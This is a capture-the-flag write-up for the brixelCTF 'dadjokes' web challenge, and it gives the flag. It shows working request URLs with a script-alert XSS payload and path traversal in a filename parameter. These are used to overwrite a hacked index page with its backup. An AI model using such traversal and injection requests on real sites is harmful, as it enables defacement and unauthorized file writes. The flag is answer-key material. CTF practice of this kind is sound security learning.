


## Flag
```
brixelCTF{lamejoke}
```

## Solution
The page was hacked.



But the hacker left a clue in the page source as a comment that the original page was still in play at /index_backup.html



Couple pages:
- /jokes/read.php
- /jokes/submit.php

read.php has a list of jokes that are in the existing database. Each joke is a seperate txt file. The submit.php page has a form that a user can submit jokes with. Those seem to live in a pending status but can be viewed.

Tried a few tricks for shell injection. Noticed that quotes get sanatized on submit, but the url seems to be vulnerable.

XSS seems to work too, can run and get an alert
```
http://timesink.be/dadjokes/jokes/submit.php?filename=a.txt&title=a&content=<SCRIPT>alert("1")</SCRIPT>
```

Tried
```
http://timesink.be/dadjokes/jokes/submit.php?filename=index.html&title=page&content=&submit=true
```
and got the first possible positive result
```
You're on the right track, but I'm not going to allow this in here, try that somewhere else!
```

Tried:
```
http://timesink.be/dadjokes/jokes/submit.php?filename=../index.html&title=page&content=<SCRIPT>alert("1")</SCRIPT>&submit=true
```
 This gives 
 ```
 You are definitely on the right track here... but what are you trying to accomplish?
 ```

 tried:
 ```
 http://timesink.be/dadjokes/jokes/submit.php?filename=../../index.html&title=page&content=<SCRIPT>alert("1")</SCRIPT>&submit=true
 ```
  and got 
  ```
  You're on the right track, but are you trying to be a bit naughty?
  ```

  So back one. What am I trying to accomplish? The challenge wants us to restore the original website? Tried using iframe and scripts. Ended up just copying the entire content of the index_backup.html and that presented the flag
  ```
  Congratulations, the flag is brixelCTF{lamejoke}
  ```
